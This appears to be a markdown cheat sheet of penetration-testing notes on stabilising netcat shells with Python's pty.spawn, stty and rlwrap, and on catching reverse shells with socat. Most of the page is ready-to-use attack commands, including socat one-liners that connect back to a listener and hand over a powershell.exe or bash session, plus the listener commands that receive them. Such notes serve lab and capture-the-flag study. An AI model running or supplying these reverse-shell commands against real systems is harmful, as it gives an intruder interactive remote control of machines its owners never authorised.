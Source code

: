 ## Netcat Shell Stabilisation

### with Python

```bash
#spawn a better featured bash shell. (that some targets may need the version of Python specified.)

python -c 'import pty;pty.spawn("/bin/bash")'

# Give Access to term cmd (such as clear)

export TERM=xterm

# turns off our own terminal echo (gives us access to tab, autocompletes)

stty raw -echo; fg

```

> pty.spawn() : pty.spawn() in Python creates a virtual terminal for communication between a Python script and command-line programs. It's like a chat room where Python sends commands and receives responses from the program, allowing automation of command-line tasks.


### with rlwrap

`rlwrap` is a program which gives us access to history, tab autocompletion and other features upon receiving a shell.

```bash
# install rlwrap
sudo apt install rlwrap

# usage

rlwrap nc -lvnp <port>

```

`rlwrap` useful when dealing with windows shell, which are difficult to stabilise.

when dealing with linux target, you can use `step 3` from python for more stabilised shell.

## Socat

**Reverse shells**

```bash
# equals to nc -nvlp <port>
socat TCP-L:<port>

#Command to connect back
#Windows
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
        
#Linux 
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"

```
